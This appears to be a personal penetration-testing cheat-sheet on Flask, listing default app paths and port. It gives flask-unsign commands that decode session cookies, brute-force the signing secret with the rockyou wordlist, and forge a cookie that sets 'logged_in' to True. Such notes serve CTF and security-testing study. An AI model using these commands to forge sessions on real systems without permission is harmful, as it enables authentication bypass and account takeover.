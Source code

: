 # Default web Config
/app/app/myapp/app.py
/app/myapp/app.py
# Default Port
5000


# Flask-unsign
> Tool to decrypt flask cookie using secret key which can be found in flask app.py 

## install flask-unsign
`pipx install flask-unsign`

## Usage
#### Decode Cookie
`flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'`

#### Brute Force
`flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval`

#### Signing
`flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'`

#### Signing using legacy (old versions)
`flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy`



---
Tags: #Flask
Resources: 
[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)